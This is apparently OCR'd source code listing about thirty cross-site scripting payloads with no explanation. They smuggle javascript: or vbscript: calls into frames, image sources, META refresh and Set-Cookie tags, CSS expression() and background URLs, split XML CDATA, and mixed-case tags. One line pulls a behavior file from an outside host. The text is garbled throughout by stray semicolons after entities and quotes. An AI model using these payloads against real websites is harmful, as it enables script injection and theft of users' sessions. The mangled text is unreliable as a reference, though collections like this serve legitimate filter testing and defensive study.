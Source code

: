 &lt;;FRAMESET&gt;;&lt;;FRAME SRC=";javascript:alert(';XSS';);";&gt;;&lt;;/FRAMESET&gt;;

&lt;;IFRAME SRC=";javascript:alert(';XSS';);";&gt;;&lt;;/IFRAME&gt;;

&lt;;INPUT TYPE=";IMAGE"; SRC=";javascript:alert(';XSS';);";&gt;;

&lt;;IMG SRC=";javascript:alert(';XSS';);";&gt;;

&lt;;IMG SRC=javascript:alert(';XSS';)&gt;;

&lt;;IMG DYNSRC=";javascript:alert(';XSS';);";&gt;;

&lt;;IMG LOWSRC=";javascript:alert(';XSS';);";&gt;;

exp/*&lt;;XSS STYLE=';no\xss:noxss(";*//*";);

&lt;;STYLE&gt;;li {list-style-image: url(";javascript:alert(&#39;XSS&#39;)";);}&lt;;/STYLE&gt;;&lt;;UL&gt;;&lt;;LI&gt;;XSS

&lt;;IMG SRC=';vbscript:msgbox(";XSS";)';&gt;;

&lt;;META HTTP-EQUIV=";refresh"; CONTENT=";0;url=javascript:alert(';XSS';);";&gt;;

&lt;;META HTTP-EQUIV=";refresh"; CONTENT=";0; URL=http://;URL=javascript:alert(';XSS';);";&gt;;

&lt;;OBJECT classid=clsid:ae24fdae-03c6-11d1-8b76-0080c744f389&gt;;&lt;;param name=url value=javascript:alert(';XSS';)&gt;;&lt;;/OBJECT&gt;;

a=";get";;&;#10;b=";URL(";";;&;#10;c=";javascript:";;&;#10;d=";alert(';XSS';);";)";;&#10;eval(a+b+c+d);

&lt;;STYLE TYPE=";text/javascript";&gt;;alert(';XSS';);&lt;;/STYLE&gt;;

&lt;;IMG STYLE=";xss:expr/*XSS*/ession(alert(';XSS';))";&gt;;

&lt;;XSS STYLE=";xss:expression(alert(';XSS';))";&gt;;

&lt;;STYLE&gt;;.XSS{background-image:url(";javascript:alert(';XSS';)";);}&lt;;/STYLE&gt;;&lt;;A CLASS=XSS&gt;;&lt;;/A&gt;;

&lt;;STYLE type=";text/css";&gt;;BODY{background:url(";javascript:alert(';XSS';)";)}&lt;;/STYLE&gt;;

&lt;;LINK REL=";stylesheet"; HREF=";javascript:alert(';XSS';);";&gt;;

&lt;;TABLE BACKGROUND=";javascript:alert(';XSS';)";&gt;;&lt;;/TABLE&gt;;

&lt;;TABLE&gt;;&lt;;TD BACKGROUND=";javascript:alert(';XSS';)";&gt;;&lt;;/TD&gt;;&lt;;/TABLE&gt;;

&lt;;XML ID=I&gt;;&lt;;X&gt;;&lt;;C&gt;;&lt;;![CDATA[&lt;;IMG SRC=";javas]]&gt;;&lt;;![CDATA[cript:alert(';XSS';);";&gt;;]]&gt;;

&lt;;XML ID=";xss";&gt;;&lt;;I&gt;;&lt;;B&gt;;&lt;;IMG SRC=";javas&lt;;!-- --&gt;;cript:alert(';XSS';)";&gt;;&lt;;/B&gt;;&lt;;/I&gt;;&lt;;/XML&gt;;

&lt;;META HTTP-EQUIV=";Set-Cookie"; Content=";USERID=&lt;;SCRIPT&gt;;alert(';XSS';)&lt;;/SCRIPT&gt;;";&gt;;

&lt;;XSS STYLE=";behavior: url(http://ha.ckers.org/xss.htc);";&gt;;

&lt;;BR SIZE=";&;{alert(';XSS';)}";&gt;;

&lt;;IMG SRC=JaVaScRiPt:alert(';XSS';)&gt;;
